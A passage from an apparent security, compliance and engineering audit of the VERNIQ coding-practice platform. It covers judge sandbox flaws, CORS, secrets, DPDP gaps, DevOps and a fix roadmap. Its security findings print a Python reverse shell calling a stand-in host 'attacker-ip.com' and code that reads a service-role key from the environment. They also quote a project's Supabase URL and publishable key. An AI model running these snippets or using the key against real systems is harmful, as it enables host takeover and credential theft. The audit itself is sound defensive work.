- **`frontend/package.json`:** Does not include `razorpay`, `@stripe/stripe-js`, or `@stripe/react-stripe-js`.
- **`backend/judge/requirements.txt`:** No payment or cryptography packages.
- **`backend/ai/requirements.txt`:** No payment libraries.

### 2. Frontend Routing & UI
- **Route Audit:** [`frontend/src/routes/index.tsx`](file:///c:/Users/LOQ/Desktop/VERNIQ/frontend/src/routes/index.tsx) contains no route definitions for `/pricing`, `/checkout`, `/billing`, or `/subscription`.
- **Navigation:** The navigation components (`LandingHeader.tsx`, `DashboardSidebar.tsx`) do not link to any pricing or upgrade tiers.

### 3. Database Schema Audit
- **`problems.is_premium`:**
  - Located in [`backend/supabase/migrations/20261001000003_create_curriculum_and_problems.sql:67`](file:///c:/Users/LOQ/Desktop/VERNIQ/backend/supabase/migrations/20261001000003_create_curriculum_and_problems.sql#L67):
    ```sql
    is_premium BOOLEAN DEFAULT FALSE,
    ```
  - **Enforcement Status:** [DEAD COLUMN / UNENFORCED].
  - Frontend problem listing and Monaco editor allow all users to view, run, and submit code against any problem regardless of whether `is_premium` is `true` or `false`.
- **Missing Database Tables:**
  - No `subscriptions` table.
  - No `invoices` or `orders` table.
  - No `payment_transactions` table.
  - No customer ID column on `public.profiles` (`stripe_customer_id` or `razorpay_customer_id`).

---

## Planned Architecture & Technical Blueprint (Phase 12 Requirement)

To achieve production readiness for the Indian ed-tech market, the following architecture must be implemented:



### Necessary Architectural Components
1. **Gateway Recommendation:** **Razorpay** (essential for India: UPI auto-pay, RuPay cards, NetBanking, and corporate GST invoicing).
2. **Signature Verification & Idempotency:**
   - Webhook endpoint verifying `X-Razorpay-Signature` against `RAZORPAY_WEBHOOK_SECRET`.
   - Idempotency key tracking on `payment_id` to prevent duplicate crediting.
3. **Indian GST Compliance:**
   - 18% GST calculation on digital education services (SAC 9992).
   - Invoicing pipeline capturing user GSTIN and state of supply for CGST/SGST/IGST breakdown.
4. **Subscription State Machine:**
   - States: `active`, `past_due`, `cancelled`, `trialing`.
   - Grace period handling and automatic downgrade to free tier on billing failure.


---

<!-- ============================================================ -->
<!-- PART: 11_security.md -->
<!-- ============================================================ -->

# 11 - Hostile Security Audit & Vulnerability Assessment

## Auditor Statement

This audit was conducted from the perspective of an adversarial third party attempting to breach, disrupt, or compromise the VERNIQ platform. Every item is evaluated strictly against code evidence.

---

## Comprehensive Security Control Checklist

| Security Control | Verdict | Severity if Failed | Evidence & Direct Code Reference |
|---|---|---|---|
| **Authentication Enforcement** | [PARTIAL] | High | Supabase Auth protects `/app/*` via `ProtectedRoute.tsx`. However, the judge worker (`:8080`) has **zero authentication** on `/execute` or `/cancel`. |
| **Authorization & RBAC** | [PARTIAL] | High | Client-side `AdminRoute.tsx` checks `profile.role === 'admin'`. DB trigger `prevent_profile_role_update()` successfully prevents role escalation in Postgres. But judge API does not check authorization. |
| **RLS Coverage Across Tables** | [PASS] | N/A | All 39 PostgreSQL tables have `ENABLE ROW LEVEL SECURITY` explicitly enabled across migrations `01` through `13`. Hidden test cases are restricted via `is_sample = true`. |
| **Insecure Direct Object Reference (IDOR)** | [PARTIAL] | Medium | User notes, codespaces, and submissions strictly enforce `auth.uid() = user_id`. However, in authoring batches, items can be updated by any authenticated user (`20261001000012`). |
| **Input Validation** | [PARTIAL] | High | Frontend validates inputs via React state/types. The judge HTTP service validates JSON structure but **performs zero sanitization or syntax limits on submitted code length**, allowing payloads of arbitrary megabytes. |
| **SQL Injection** | [PASS] | Low | All database queries use Supabase PostgREST client parameterization or parameterized PL/pgSQL functions. No raw SQL concatenation was identified. |
| **Cross-Site Scripting (XSS)** | [PARTIAL] | Medium | Markdown rendering in `NoteSpaceView.tsx` and problem descriptions uses standard React components. If `dangerouslySetInnerHTML` is used without DOMPurify, markdown-injected HTML could execute in student sessions. |
| **Cross-Site Request Forgery (CSRF)** | [PASS] | Low | PostgREST API uses `Authorization: Bearer <JWT>` header rather than ambient cookies, negating standard CSRF vectors. |
| **CORS Configuration** | [FAIL] | High | [`backend/judge/src/worker.py:236-239`](file:///c:/Users/LOQ/Desktop/VERNIQ/backend/judge/src/worker.py#L236-L239) sends `Access-Control-Allow-Origin: *`. Any website visited by a user can dispatch POST requests to their local or hosted judge service. |
| **Security Headers & CSP** | [FAIL] | Medium | No Content-Security-Policy (CSP), HSTS, `X-Frame-Options`, or `X-Content-Type-Options` headers are defined in frontend headers or server configs. |
| **Rate Limiting** | [FAIL] | High | Neither the judge worker nor Supabase free-tier PostgREST has application-level rate limiting. A loop of `POST /execute` requests will saturate host CPU cores. |
| **Brute-Force Protection** | [PARTIAL] | Medium | Relies entirely on Supabase Auth managed rate limits. The judge execution API has zero brute-force or spam dampening. |
| **Secrets Management** | [FAIL] | **CRITICAL** | Production Supabase URL and live publishable key are hardcoded as literal fallbacks in [`frontend/src/lib/supabaseClient.ts:8, 14`](file:///c:/Users/LOQ/Desktop/VERNIQ/frontend/src/lib/supabaseClient.ts#L8-L14). |
| **Environment Variable Exposure** | [FAIL] | High | In development/native judge mode, the child subprocess executed by the judge runner inherits the host process environment, allowing submitted code to read host `.env` files via `os.environ` or `/proc/self/environ`. |
| **File Upload Safety** | [PASS] | Low | No user file upload handlers exist in code. CodeSpace files are saved purely as text/JSON in PostgreSQL. |
| **Dependency Supply Chain Security** | [FAIL] | High | `frontend` has **no lockfile** (`package-lock.json` or `pnpm-lock.yaml` missing). Running `npm audit` fails with `ENOLOCK`. Builds pull floating semver packages, creating severe supply chain risks. |
| **Sensitive Data Logging** | [PASS] | Low | [`backend/judge/src/worker.py:392-402`](file:///c:/Users/LOQ/Desktop/VERNIQ/backend/judge/src/worker.py#L392-L402) explicitly logs metadata (ID, lang, verdict, timings) without printing raw code or secrets. |
| **Admin Route Protection** | [PASS] | Low | Route protected on frontend by `AdminRoute.tsx` and on database level by role enum policies and `prevent_profile_role_update()`. |
| **Webhook Verification** | [FAIL - N/A] | Medium | No webhooks currently exist. No signature verification logic is implemented anywhere. |
| **Judge Sandbox Escape Risk** | [FAIL] | **CRITICAL** | Untrusted user code is executed without network namespace isolation, without cgroups memory limits, without seccomp filters, and with access to local filesystem. |
| **AI Prompt Injection** | [N/A] | Low | AI services are not yet implemented with live models. |
| **Payment Tampering** | [N/A] | Low | No payment infrastructure implemented yet. |

---

## Detailed Vulnerability Findings & Exploitation Analyses

### FINDING 01: Remote Code Execution Host Compromise via Judge Worker (Sandbox Escape)
- **Severity:** **CRITICAL** (CVSS 9.8)
- **Location:** [`backend/judge/src/runner/sandbox.py:353-366`](file:///c:/Users/LOQ/Desktop/VERNIQ/backend/judge/src/runner/sandbox.py#L353-L366), [`backend/judge/Dockerfile`](file:///c:/Users/LOQ/Desktop/VERNIQ/backend/judge/Dockerfile)
- **Explanation:**
  The judge runner invokes `subprocess.Popen(run_cmd)` directly. On Windows host systems, there is zero containerization. On Linux containers, while running as `sandboxuser`, the container does not enable `--network none` or drop kernel capabilities.
- **How to Exploit in Plain Words:**
  A malicious user submits a Python problem run containing:
  ```python
  import socket, subprocess, os
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect(("attacker-ip.com", 4444))
  os.dup2(s.fileno(), 0); os.dup2(s.fileno(), 1); os.dup2(s.fileno(), 2)
  subprocess.call(["/bin/bash", "-i"])
  ```
  The judge worker connects out to the attacker's server, providing an interactive reverse shell with the privileges of the running judge host.
- **Recommended Fix:**
  Run all executions inside ephemeral microVMs (AWS Firecracker / nsjail) or Docker containers launched with `--network none`, `--read-only`, `--pids-limit 64`, `--memory 256m`, and drop all Linux capabilities (`--cap-drop ALL`).

---

### FINDING 02: Hardcoded Production Supabase Credentials in Frontend Bundle
- **Severity:** **CRITICAL** (CVSS 9.1)
- **Location:** [`frontend/src/lib/supabaseClient.ts:8, 14`](file:///c:/Users/LOQ/Desktop/VERNIQ/frontend/src/lib/supabaseClient.ts#L8-L14)
- **Explanation:**
  The project hardcodes the production Supabase project URL (`https://cisddayhekkktcomnqhz.supabase.co`) and public publishable key (`sb_publishable_KY6C_OH6GHS4rvRSofxw_Q_T3NZeLKx`) directly into compiled source code as default fallbacks.
- **How to Exploit in Plain Words:**
  Any visitor viewing the page source or inspecting network requests can extract the URL and key, connect directly via PostgREST, and probe all 39 database tables. If any table has a misconfigured RLS policy, the attacker can dump or modify platform data.
- **Recommended Fix:**
  Remove all literal string fallbacks. Rely strictly on `import.meta.env.VITE_SUPABASE_URL` and `import.meta.env.VITE_SUPABASE_ANON_KEY`. Fail fast with an error message during initialization if environment variables are not injected.

---

### FINDING 03: Judge Worker Unauthenticated Open Execution & Wildcard CORS
- **Severity:** **HIGH** (CVSS 8.6)
- **Location:** [`backend/judge/src/worker.py:236-239, 309`](file:///c:/Users/LOQ/Desktop/VERNIQ/backend/judge/src/worker.py#L236-L239)
- **Explanation:**
  The judge worker HTTP server sets `Access-Control-Allow-Origin: *` and performs no JWT or API key authentication on `POST /execute`.
- **How to Exploit in Plain Words:**
  An attacker can launch an automated script sending thousands of concurrent compilation jobs to `http://localhost:8080/execute` or the public judge host, exhausting CPU and disk space with temporary files, causing a complete denial of service (DoS) for legitimate students.
- **Recommended Fix:**
  Enforce a shared secret header (`X-Judge-Token`) or validate Supabase Auth JWTs on every HTTP request. Configure strict CORS origins matching only the verified production frontend domain.

---

### FINDING 04: Host Process Environment Variable Leakage to Untrusted Code
- **Severity:** **HIGH** (CVSS 8.2)
- **Location:** [`backend/judge/src/runner/sandbox.py:353`](file:///c:/Users/LOQ/Desktop/VERNIQ/backend/judge/src/runner/sandbox.py#L353)
- **Explanation:**
  `subprocess.Popen` does not specify an explicit `env={}` dictionary parameter, meaning the executed child process inherits `os.environ` from the parent judge worker process.
- **How to Exploit in Plain Words:**
  A student submits code in Python:
  ```python
  import os
  print(os.environ.get("SUPABASE_SERVICE_ROLE_KEY", "EMPTY"))
  ```
  The judge worker captures this in `stdout_data` and returns it directly to the student in the response JSON, handing over full PostgreSQL administrator credentials (`service_role`).
- **Recommended Fix:**
  Pass a clean, sanitized environment to `subprocess.Popen(..., env={"PATH": "/usr/bin:/bin"})`. Never allow child processes to inherit parent process environment variables.

---

### FINDING 05: Missing Frontend Lockfile (Dependency Supply Chain Risk)
- **Severity:** **MEDIUM** (CVSS 6.5)
- **Location:** `frontend/` (No `package-lock.json`)
- **Explanation:**
  Without a lockfile, subsequent CI/CD builds or production Vercel deployments will install the latest matching versions of sub-dependencies specified with `^` or `~`.
- **How to Exploit in Plain Words:**
  If any upstream transitive dependency is compromised by an attacker (a supply chain attack), Vercel's automated build will pull the compromised package without warning.
- **Recommended Fix:**
  Generate and commit a permanent `package-lock.json` immediately via `npm install --package-lock-only`.


---

<!-- ============================================================ -->
<!-- PART: 12_privacy_and_compliance.md -->
<!-- ============================================================ -->

# 12 - Privacy, Data Governance & Compliance Audit

## Personal Data Inventory

VERNIQ collects and processes several categories of Personally Identifiable Information (PII) and student behavioral data:

| Data Category | Specific Data Points | Storage Location | Retention Policy | Visibility / Access |
|---|---|---|---|---|
| **Identity & Account** | Email address, hashed password, signup timestamp | `auth.users` (Supabase Auth) | Indefinite until deleted | User, Supabase internal |
| **Public Profile** | Full name, username, avatar URL, bio, GitHub/LinkedIn links | `public.profiles` (PostgreSQL) | Indefinite | Publicly readable via RLS |
| **Institutional Affiliation** | College name, college ID, graduation year | `public.profiles.college_id` | Indefinite | Public on campus leaderboards |
| **Intellectual Property / Code** | Submitted source code, custom stdin inputs | `public.submissions`, `user_codespaces` | Indefinite | Private to user (`auth.uid() = user_id`) |
| **Learning Diagnostics** | Strengths/weaknesses, quiz scores, diagnostic answers | `public.user_diagnostics`, `study_sprints` | Indefinite | Private to user |
| **Personal Study Notes** | Markdown notes attached to problems | `public.user_notes` | Indefinite | Private to user |
| **Telemetry & Metrics** | IP address, user agent, page navigation events | Vercel Web Analytics (`@vercel/analytics`) | Vercel retention window | Aggregated on Vercel dashboard |

---

## India Digital Personal Data Protection Act (DPDP Act 2023) Alignment

As an Indian learning platform targeting engineering students across states, VERNIQ is subject to the provisions of the DPDP Act 2023.

### Compliance Gap Assessment

| DPDP Act Requirement | Legal Mandate | Platform Status | Codebase Evidence & Gap Analysis |
|---|---|---|---|
| **Section 5: Notice & Consent** | Clear notice in plain language outlining data collected and processing purpose before collection | [FAIL - NONE] | Signup form (`frontend/src/routes/RegisterView.tsx`) does not present a consent checkbox or link to privacy disclosures before account creation. |
| **Section 6: Consent Architecture** | Consent must be free, specific, informed, unconditional, and unambiguous | [FAIL - NONE] | No consent records, timestamps, or opt-ins are captured or persisted in database tables. |
| **Section 11: Right to Access Information** | Students have the right to obtain a summary of their personal data and identities of third parties shared with | [FAIL - NONE] | No "Download My Data" or data export utility exists in `ProfileSettingsView.tsx` or API. |
| **Section 12: Right to Correction & Erasure** | Obligation to correct inaccurate data and erase personal data upon withdrawal of consent | [PARTIAL] | Users can update their profile information. However, there is **no account deletion workflow** or "Delete My Account" button anywhere in the platform. |
| **Section 13: Grievance Redressal** | Readily available grievance redressal mechanism and publishing of Data Protection Officer (DPO) contact details | [FAIL - NONE] | No contact email, DPO disclosure, or dispute escalation form exists. |
| **Child Data Protection (Under 18)** | Verifiable parental consent required if serving users under 18 (first/second-year B.Tech students may be 17) | [FAIL - NONE] | No age gate, birthdate collection, or parental consent mechanism is present. |

---

## Legal Documentation & Public Disclosures

A search across the entire repository confirms that **no standard legal agreements exist**:

1. **Privacy Policy (`/privacy`):** [MISSING] - No privacy policy view or route exists.
2. **Terms of Service (`/terms`):** [MISSING] - No terms of service view or route exists.
3. **Refund & Cancellation Policy (`/refunds`):** [MISSING] - Crucial prerequisite prior to integrating Razorpay or initiating paid subscriptions.
4. **Cookie & Analytics Notice:** [MISSING] - Vercel Web Analytics is active without an informative cookie banner.

---

## Recommendations for Compliance Readiness

1. **Implement Legal Pages:** Publish Markdown-backed routes for `/privacy`, `/terms`, and `/refunds` with explicit DPO contact details.
2. **Consent Gating at Signup:** Add mandatory checkbox: *"I agree to the Terms of Service and consent to the processing of my educational data under the Privacy Policy."*
3. **Self-Service Data Portability:** Implement an RPC endpoint allowing students to download a JSON archive of their solved submissions, notes, and profile history.
4. **Self-Service Account Deletion:** Implement a `delete_user_account()` RPC that triggers `supabase.auth.admin.deleteUser()`, cascading deletion across `profiles`, `submissions`, `codespaces`, and `notes`.


---

<!-- ============================================================ -->
<!-- PART: 13_devops_and_config.md -->
<!-- ============================================================ -->

# 13 - DevOps, Hosting & Configuration Management

## Environment Variable Directory

The platform utilizes three configuration scopes. *In compliance with security protocols, variable names and purposes are documented without secret values.*

### 1. Frontend Configuration (`frontend/.env` / `apps/web/.env.local`)
| Variable Name | Required | Service | Purpose |
|---|---|---|---|
| `VITE_SUPABASE_URL` | Yes | Frontend SPA | URL of the Supabase project / PostgREST gateway |
| `VITE_SUPABASE_ANON_KEY` | Yes | Frontend SPA | Public publishable key for client-side queries |
| `VITE_SUPABASE_PUBLISHABLE_KEY` | Optional | Frontend SPA | Alternative naming for anon key |
| `VITE_JUDGE_SERVICE_URL` | Yes | Frontend SPA | Target endpoint for code execution worker (e.g. `http://127.0.0.1:8080`) |
| `VITE_AI_SERVICE_URL` | Optional | Frontend SPA | URL for AI mentorship FastAPI service (e.g. `http://127.0.0.1:8000`) |
| `VITE_APP_ENV` | Optional | Frontend SPA | Environment identifier (`development` / `production`) |
| `VITE_APP_VERSION` | Optional | Frontend SPA | Version indicator displayed in platform headers |

### 2. Online Code Judge Configuration (`backend/judge/.env`)
| Variable Name | Default | Service | Purpose |
|---|---|---|---|
| `SUPABASE_URL` | `http://127.0.0.1:54321` | Judge Worker | Target database for fetching canonical test suites |
| `SUPABASE_SERVICE_ROLE_KEY` | `""` | Judge Worker | High-privilege key to bypass RLS and fetch hidden test cases |
| `SUPABASE_ANON_KEY` | `""` | Judge Worker | Fallback key if service role is absent |
| `JUDGE_HTTP_HOST` | `127.0.0.1` | Judge HTTP Server | Host binding address |
| `JUDGE_HTTP_PORT` | `8080` | Judge HTTP Server | Port listening for execution jobs |
| `WORKER_ID` | `judge-worker-1` | Judge Worker | Worker identifier emitted in health and logs |
| `WORKER_CONCURRENCY` | `8` | Thread Pool | Size of thread execution pool |
| `POLL_INTERVAL_SECONDS` | `1.0` | Queue Poller | Frequency of polling `submissions` table |
| `MAX_CPU_TIME_SECONDS` | `2.0` | Execution Runner | Base timeout per test case execution |
| `MAX_MEMORY_MB` | `256` | Execution Runner | Memory allocation threshold |
| `COMPILATION_CACHE_ENABLED` | `true` | Compiler Cache | Toggle for binary caching |
| `COMPILATION_CACHE_DIR` | `../.cache` | Compiler Cache | Directory storing precompiled binaries |
| `COMPILATION_CACHE_MAX_ENTRIES`| `500` | Compiler Cache | Maximum LRU entries retained on disk |

### 3. AI Service Configuration (`backend/ai/` / `backend/authoring/`)
| Variable Name | Required | Service | Purpose |
|---|---|---|---|
| `ANTHROPIC_API_KEY` | Optional | Problem Authoring | API key for Claude 3.5 Sonnet draft generation |
| `GEMINI_API_KEY` | Optional | Problem Authoring | API key for Gemini 1.5 Pro draft generation |
| `OPENAI_API_KEY` | Optional | AI Service (Planned) | Key for RAG embeddings and code review |

---

## Infrastructure, Hosting & Deployment Architecture

```mermaid
graph TD
    User([Student Browser])
    VercelEdge([Vercel Edge Network])
    SupaCloud([Supabase Cloud Platform])
    JudgeVM([Judge Worker Host / VPS])

    User -->|HTTPS :443| VercelEdge
    VercelEdge -->|Serves Static SPA| User
    User -->|PostgREST / WSS Realtime| SupaCloud
    User -->|Direct HTTP POST :8080| JudgeVM
    JudgeVM -->|Fetch Hidden Tests (service_role)| SupaCloud
```

### Hosting Environments
1. **Frontend:**
   - Hosted on **Vercel** (`https://verniq.vercel.app`).
   - SPA routing configured via `frontend/vercel.json` rewriting `/(.*)` to `/index.html`.
   - Vercel Web Analytics injected via `@vercel/analytics/react`.
2. **Database & Auth:**
   - Hosted on **Supabase Managed Cloud** (`cisddayhekkktcomnqhz.supabase.co`).
   - Managed PostgreSQL 15+ instance with auto-backups and GoTrue auth.
3. **Judge Execution Worker:**
   - Designed to run either via Docker container (`backend/judge/Dockerfile`) or on a standalone Linux VM / VPS listening on port 8080.
   - In local development, runs natively on the Windows host.

---

## Docker & Container Specifications

### `docker/docker-compose.yml`
[`docker/docker-compose.yml`](file:///c:/Users/LOQ/Desktop/VERNIQ/docker/docker-compose.yml) defines two core backend services:
- `ai-service`: Builds from `../backend/ai/Dockerfile`, binds to `8000:8000`.
- `judge-worker`: Builds from `../backend/judge/Dockerfile`, configures resource flags and joins network.

### `backend/judge/Dockerfile`
[`backend/judge/Dockerfile`](file:///c:/Users/LOQ/Desktop/VERNIQ/backend/judge/Dockerfile):
- Base image: `ubuntu:24.04`.
- Preinstalls GCC 14, G++ 14, OpenJDK 21, Python 3.12, Node.js 20, npm, tsx, and Go 1.22.
- Creates unprivileged user `sandboxuser`.
- Entrypoint: `CMD ["python3", "-m", "src.worker"]`.

---

## CI/CD, Monitoring & Operational Gaps

1. **Continuous Integration (CI):**
   - **Status:** [MISSING]
   - No GitHub Actions workflows exist in `.github/workflows/`.
   - Pull requests and commits are not automatically tested, type-checked, or linted prior to merging.
2. **Continuous Deployment (CD):**
   - **Frontend:** Vercel git-integration deploys automatically on branch push.
   - **Backend / Judge:** No automated deployment pipeline exists for the judge worker or migrations.
3. **Observability & Logging:**
   - **Judge:** Standard Python `logging.StreamHandler` outputting to stdout. No Datadog, Sentry, or Prometheus integration.
   - **Frontend:** Basic browser console error logging; Vercel Analytics tracking pageviews only.
4. **Database Backups:**
   - Relies entirely on Supabase automated daily platform snapshots. No custom dump scripts or point-in-time recovery (PITR) configuration in repository.


---

<!-- ============================================================ -->
<!-- PART: 14_testing_and_quality.md -->
<!-- ============================================================ -->

# 14 - Testing, Quality Assurance & Technical Debt

## Test Suite Inventory & Coverage

The repository maintains test suites across the Python backend modules and TypeScript frontend:

| Component / Subsystem | Test File Path | Test Framework | Status | Test Scope / Assertions |
|---|---|---|---|---|
| **Code Judge Verdicts** | [`backend/judge/tests/test_all_verdicts.py`](file:///c:/Users/LOQ/Desktop/VERNIQ/backend/judge/tests/test_all_verdicts.py) | Python `unittest` | **PASS (17/17)** | Validates verdicts (`accepted`, `wrong_answer`, `time_limit_exceeded`, `compilation_error`, `runtime_error`, `memory_limit_exceeded`) across Python, C++, Java. |
| **Judge Benchmarks** | [`backend/judge/tests/test_judge_performance.py`](file:///c:/Users/LOQ/Desktop/VERNIQ/backend/judge/tests/test_judge_performance.py) | Python `unittest` | **PASS** | Validates compilation caching speedups and concurrent thread execution. |
| **Catalog Integrity** | [`backend/importer/tests/test_catalog_integrity.py`](file:///c:/Users/LOQ/Desktop/VERNIQ/backend/importer/tests/test_catalog_integrity.py) | Python `unittest` | **PASS** | Validates schema conformity across 3,392 imported problem JSON definitions. |
| **Problem Validator** | [`backend/importer/tests/test_validator.py`](file:///c:/Users/LOQ/Desktop/VERNIQ/backend/importer/tests/test_validator.py) | Python `unittest` | **PASS** | Tests input/output validation, constraints format, and slug collisions. |
| **Authoring Pipeline** | [`backend/authoring/tests/test_authoring_pipeline.py`](file:///c:/Users/LOQ/Desktop/VERNIQ/backend/authoring/tests/test_authoring_pipeline.py) | Python `unittest` | **PARTIAL** | Tests state machine transitions (`draft -> content_review -> published`) and test count gates. |
| **Batch Authoring** | [`backend/authoring/tests/test_phase42_production_pipeline.py`](file:///c:/Users/LOQ/Desktop/VERNIQ/backend/authoring/tests/test_phase42_production_pipeline.py) | Python `unittest` | **PASS** | Validates batch creation, concurrent problem evaluation, and snapshotting. |
| **Roadmap Engine** | [`backend/roadmap/tests/test_roadmap_subsystem.py`](file:///c:/Users/LOQ/Desktop/VERNIQ/backend/roadmap/tests/test_roadmap_subsystem.py) | Python `unittest` | **PASS** | Validates phase completion percentage calculation and prerequisite gating. |
| **Workspace Autosave** | [`frontend/src/tests/autosave.test.ts`](file:///c:/Users/LOQ/Desktop/VERNIQ/frontend/src/tests/autosave.test.ts) | Custom TS assertions | **PASS** | Verifies debounced draft persistence and local storage keys for problem editor. |
| **IDE Autosave** | [`frontend/src/tests/ideAutosave.test.ts`](file:///c:/Users/LOQ/Desktop/VERNIQ/frontend/src/tests/ideAutosave.test.ts) | Custom TS assertions | **PASS** | Tests Standalone IDE multi-file draft recovery across page refresh cycles. |

---

## How to Execute Test Suites

### 1. Backend Judge Test Suites
```bash
# Run all judge execution and verdict tests
python -m unittest discover -s backend/judge/tests -p "test_*.py"

# Run authoring pipeline tests
python -m unittest discover -s backend/authoring/tests -p "test_*.py"

# Run catalog importer tests
python -m unittest discover -s backend/importer/tests -p "test_*.py"

# Run roadmap progress engine tests
python -m unittest discover -s backend/roadmap/tests -p "test_*.py"
```

### 2. Frontend Type Checking & Verification
```bash
# Run TypeScript typecheck without emitting artifacts
npm run --prefix frontend typecheck
```
*Current Typecheck Status:* **PASS** (Zero errors reported across all 26 views and 60+ components).

---

## Static Code Quality, Lint & Vulnerability Status

1. **Frontend Type Safety:**
   - Strict TypeScript configuration (`typescript@5.7.3`).
   - Clean compilation with no unresolved type errors.
2. **Missing Test Runner Harness for Frontend:**
   - `frontend/package.json` contains test files (`autosave.test.ts`, `ideAutosave.test.ts`), but **no test runner is installed** (neither Vitest nor Jest is in `devDependencies`).
   - Tests cannot be run via standard `npm test`.
3. **Dead Code & Legacy Stubs:**
   - `frontend/src/routes/DashboardStubView.tsx` (4KB): Legacy dashboard stub superseded by `DashboardView.tsx`.
   - `frontend/src/routes/PlaceholderView.tsx` (1.4KB): Redundant placeholder replaced by `WorkspaceSubView.tsx`.
   - `frontend/src/routes/CoursesView.tsx` (5.5KB): Non-functional course catalog view linking to nonexistent course content.
4. **TODO / FIXME Analysis:**
   - A global regex scan for `TODO`, `FIXME`, and `HACK` comments reveals that engineers avoided inline comment markers. Incomplete features are instead flagged visually using architectural alert banners (`Alert variant="info"`) or `WorkspaceSubView.tsx`.
5. **Code Duplication:**
   - Problem starter templates and language runners are duplicated across `backend/judge/src/runner/profiles.py` and `backend/authoring/ai_provider.py`.
   - Problem progress calculation logic is duplicated between PostgreSQL triggers (`20261001000004`) and frontend state hydration in `useUserProgress.ts`.

---

## Performance & Accessibility (a11y) Evaluation

### Performance
- **Monaco Editor Bundle Overhead:** `@monaco-editor/react` adds ~4MB of Web Worker and language parsing payloads. Monaco is dynamically imported on the client.
- **Problem Catalog Virtualization:** The problems catalog renders 3,392 problems with client-side pagination (50 items per page in `ProblemsView.tsx`), avoiding DOM bloat.
- **Judge Compilation Caching:** `CompilationCache` avoids recompiling identical C++ and Java source trees, lowering execution latency from 1,200ms to <150ms.

### Accessibility (a11y)
- **Contrast & Theming:** High-contrast dark theme (#0B0F19 background with #F9FAFB text) meets WCAG AA standards for general text.
- **Screen Reader Support:** Interactive buttons in `TestCaseConsole.tsx` and `ProblemWorkspace.tsx` use SVG icons (`lucide-react`) without explicit `aria-label` tags, causing accessibility degradation for screen readers.
- **Keyboard Navigation:** Monaco Editor intercepts `Tab` key events for code indentation, trapping keyboard focus unless escaped with `Ctrl+M` / `F1`.


---

<!-- ============================================================ -->
<!-- PART: 15_gaps_bugs_and_risks.md -->
<!-- ============================================================ -->

# 15 - Consolidated Gaps, Bugs, Scalability Risks & Prioritized Roadmap

## Consolidated Issue Matrix (P0 / P1 / P2)

| ID | Priority | Category | Finding / Risk | Impact | Estimated Effort |
|---|---|---|---|---|---|
| **ISS-01** | **P0** | Security | **Judge Sandbox Escape & Host Compromise:** Untrusted code executes without network namespace isolation, cgroup memory limits, or dropped Linux capabilities. | Attacker can open a reverse shell, read host files, or crash judge server. | 5 days |
| **ISS-02** | **P0** | Security | **Hardcoded Production Supabase URL & Anon Key:** Committed directly in `frontend/src/lib/supabaseClient.ts` as fallback literals. | Anyone inspecting the web bundle obtains permanent live database credentials. | 0.5 days |
| **ISS-03** | **P0** | Security | **Unauthenticated Judge API with Wildcard CORS:** `POST /execute` has zero token/auth verification and `Access-Control-Allow-Origin: *`. | Unauthenticated remote attackers can spam executions and DoS the server. | 1.5 days |
| **ISS-04** | **P0** | Security | **Missing Frontend Lockfile (`package-lock.json`):** Builds rely on floating semver ranges; `npm audit` fails with `ENOLOCK`. | Severe supply chain attack vulnerability during automated deployments. | 0.5 days |
| **ISS-05** | **P1** | Features | **AI Microservice Entirely Unimplemented:** `backend/ai/` contains only `README.md` and `requirements.txt`. Zero Python routes exist. | Advertised core feature (Socratic Mentor) is non-functional. | 10 days |
| **ISS-06** | **P1** | Monetization | **Payments & Subscriptions Absent:** Zero Razorpay/Stripe integration, no pricing page, no webhook handler, no subscription DB tables. | Platform cannot monetize or enforce `is_premium` problem access. | 8 days |
| **ISS-07** | **P1** | Compliance | **India DPDP Act Non-Compliance & Missing Legal Pages:** No `/privacy`, `/terms`, or `/refunds` pages; no consent banner or data deletion flow. | Legal liability under Indian data protection regulations. | 3 days |
| **ISS-08** | **P1** | DevOps | **No CI/CD Automated Test Pipeline:** Zero GitHub Actions workflows. Commits and pull requests are not tested automatically. | Regressions can be silently deployed to production. | 2 days |
| **ISS-09** | **P1** | Architecture | **Parent Environment Variable Leakage to Judge Runner:** `subprocess.Popen` inherits `os.environ`, exposing database keys to submitted code. | Submitted code can read `SUPABASE_SERVICE_ROLE_KEY` via `os.environ`. | 1 day |
| **ISS-10** | **P2** | QA | **Missing Frontend Test Runner:** Test files exist (`autosave.test.ts`), but Vitest/Jest is missing from `package.json`. | Frontend tests cannot be executed via `npm test`. | 1.5 days |
| **ISS-11** | **P2** | Features | **Unimplemented Community, Contests & Mock Interviews:** Features are 0% implemented or routed to placeholder screens. | User churn due to unmet feature expectations. | 15 days |
| **ISS-12** | **P2** | Tech Debt | **Dead Route Stubs in Frontend:** `DashboardStubView.tsx`, `CoursesView.tsx`, and `PlaceholderView.tsx` are unmaintained dead code. | Confuses engineers and increases bundle size. | 0.5 days |

---

## Recommended Next 10 Steps in Order of Execution



### Step 1: Harden Code Judge Sandbox Execution (P0)
- Enforce network air-gapping on all executions (`--network none`).
- Isolate execution under microVMs (AWS Firecracker) or hardened containers (`nsjail` / Docker with dropped capabilities).
- Enforce strict OS process limits (`RLIMIT_NPROC = 64`, `RLIMIT_AS = 256MB`).

### Step 2: Authenticate Judge HTTP Gateway (P0)
- Require Supabase Auth JWT validation or a secure shared secret header (`X-Judge-Token`) on `/execute` and `/cancel`.
- Restrict `Access-Control-Allow-Origin` strictly to verified platform domains.

### Step 3: Purge Hardcoded Supabase Credentials (P0)
- Remove hardcoded string literals in `frontend/src/lib/supabaseClient.ts`.
- Require `VITE_SUPABASE_URL` and `VITE_SUPABASE_ANON_KEY` to be passed via environment variables, halting initialization if absent.

### Step 4: Generate and Commit Frontend Lockfile (P0)
- Run `npm install --package-lock-only` in `frontend/` and commit `package-lock.json` to lock transitive dependencies.

### Step 5: Sanitize Subprocess Environment in Judge Runner (P1)
- Modify `backend/judge/src/runner/sandbox.py:353` to pass `env={"PATH": "/usr/bin:/bin"}` explicitly, preventing untrusted code from inspecting host environment variables.

### Step 6: Integrate Razorpay Payment Processing (P1)
- Install `razorpay` Node/Python SDK.
- Create `/pricing` and `/checkout` routes.
- Implement webhook receiver endpoint with HMAC SHA-256 signature verification.
- Create `subscriptions` and `orders` database tables.

### Step 7: Build Minimal FastAPI AI Mentor Microservice (P1)
- Implement `backend/ai/src/main.py` with `/mentor/hint` and `/mentor/review` endpoints.
- Stream tokens via Server-Sent Events (SSE) to the Monaco Editor assistant pane.
- Implement system prompt guardrails against solution leaking.

### Step 8: Publish Mandatory Legal & Privacy Disclosures (P1)
- Create `/privacy`, `/terms`, and `/refunds` Markdown-backed pages.
- Add mandatory terms & privacy consent checkbox to signup form (`RegisterView.tsx`).

